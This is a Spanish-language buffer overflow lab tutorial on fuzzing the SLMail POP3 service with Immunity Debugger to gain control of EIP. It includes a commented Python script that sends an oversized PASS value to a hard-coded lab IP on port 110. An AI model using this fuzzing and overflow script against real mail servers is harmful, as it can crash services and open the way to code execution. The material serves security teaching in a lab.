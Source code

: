 De primeras el atacante debe fuzzear todo el servicio, es decir, conectarse al servicio y probar introducir parámetros inválidos o caracteres inesperados con el objetivo de acontecer errores y ver cómo se comporta el servicio.

En este caso se hará uso de Immunity Debugger para ver cómo se comporta la aplicación a bajo nivel. Primero se abrirá el proceso, para esto hay que dar click en ”File/Attach” y seleccionar el proceso SLMail.

![Untitled](../assets/Buffer-Overflow/Lab1/Fuzzing-Control-EIP/Untitled 4.png)

De primeras estará en modo “Paused” y para correrlo hay que darle al ícono rojo de “Play”.

Ahora se pueden ver los registros y entre ellos está el EIP el cual apuntará a la siguiente dirección de memoria para ser ejecutada.

![Untitled](../assets/Buffer-Overflow/Lab1/Fuzzing-Control-EIP/Untitled 5.png)

En las vulnerabilidades encontradas para este servicio, se ve que el campo PASS es vulnerable a Buffer Overflow, por lo que para este primer ejercicio será tomar control del EIP y para ello se creará un script en Python que automatizará todo el proceso.

```bash
#!/usr/bin/python3

import socket
import sys

# Esto se usa para verificar que se está introduciendo 
# un argumento en el script.
if len(sys.argv) != 2:
	print("[!] Usage: exploit.py <length>")
	exit(1)

# Variables globales
ip_add = "192.168.0.104" # IP destino
port = 110 # Puerto destino

# Almacena el primer argumento que se le pasa al script y
# se le aplica un typecasting.
total_length = int(sys.argv[1])

def exploit():
	
	# Create a socket.
	# Esto sirve para especificar que se entrablará 
	# una conexión TCP.
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	# Connect to the server.
	# Sirve para establecer esa conexión TCP,
	# se especifica la IP y el puerto.
	s.connect((ip_add, port))

	# Receive the banner.
	# Sirve para verificar que se estableció la conexión
	# correctamente.
	# Específicamente se está recibiendo una cadena de 
	# caracteres de la cabecera de repuesta del servidor
	banner = s.recv(1024) # 1024 Bytes que se recibirán

	# Send data.
	# Ahora se enviarán los datos para loguearse en el 
	# servidor, es decir, el "USER" y "PASS".
	s.send(b"USER bof" + b"\r\n") # "\r\n" representa el ENTER.
	s.send(b"PASS " + b"A"*total_length + b"\r\n")
	s.close() # Cerrará la conexión TCP
```